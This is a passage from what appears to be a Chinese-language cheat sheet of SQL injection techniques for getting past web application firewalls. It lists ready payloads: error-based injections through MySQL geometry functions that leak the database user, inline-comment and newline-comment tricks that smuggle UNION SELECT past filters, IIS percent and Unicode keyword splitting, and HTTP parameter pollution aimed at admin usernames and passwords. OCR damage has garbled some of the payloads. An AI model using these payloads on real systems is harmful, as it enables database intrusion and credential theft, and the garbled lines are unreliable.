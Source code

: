 
4.exp()
exp(~(select * from(select user()))a))


5.GeometryCollection()
Id=1 and GeometryCollection((select _ from(select _ from(select user())a)b))


6.Polygon


Id = 1 and polygon((select _ from (select _ from(select user())a)b))


7.Multipoint()


Id = 1 and Multipoint ((select _ from (select _ from(select user())a)b))


8.Multilinestring()


Id = 1 and Multilinestring ((select _ from (select _ from(select user())a)b))


9.multipolygon


Id = 1 and multipolygon ((select _ from (select _ from(select user())a)b))


10.linestring()


Id = 1 and linestring ((select _ from (select _ from(select user())a)b))


#### 6、其他等价函数绕过
hex()、bin() ==> ascii()
sleep() >benchmark()
concat_ws()>group_concat()
mid()、substr() ==> substring()
@[@user ](/user ) ==> user() 
@[@database ](/database ) ==> database() 


#### 7、内联注释配合注释绕过
Id=1/**//_! order_/+/_!by_/+1


#### 8、%0a换行跳出单行注释绕过
原理：数据库中对于#和--（空格）后面的东西都进行注释忽略处理
我们通过waf一般不会处理注释内的东西这一特性进行绕过，在%23（url解码为#）后面放%0a换行再放入执行语句，中间可以多次经过%23%0a进行绕过。ps:在%23和%0a中间可以随意加入字符，放置注释掉了。
Payload：
id=2%20+%231q%0AOrDeR%20%23adsf%0A%23%0ABy%201
id=-2%20+%231q%0AuNiOn%20all%23adsf%0A%23%0AsEleCt%201,2,3
#### 9、利用一些中间件的缺陷
（1）IIS+ASP
通过在关键词之间加%绕过。Id=1 and uni%on se%le%ct 1,2,3 from ad%min
（2）IIS的Unicode编码
IIS支持Unicode编码，可以通过编码关键词进行绕过：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316976370-63e00d2f-1d76-4702-a4ad-53ff3433f16a.png#align=left&display=inline&height=60&margin=%5Bobject%2Object%5D&name=image.png&originHeight=120&originWidth=554&size=13102&status=done&style=none&width=277)
（3）HTTP参数污染
有的时候，浏览器对于这样的传参会出现以下情况：
Id=1 and id=2 --> 出现在服务器中，id=1,2
那么我们可以这样绕：
id=1 and union select username & id= password form admin
--> id=1 and union select username, password form admin
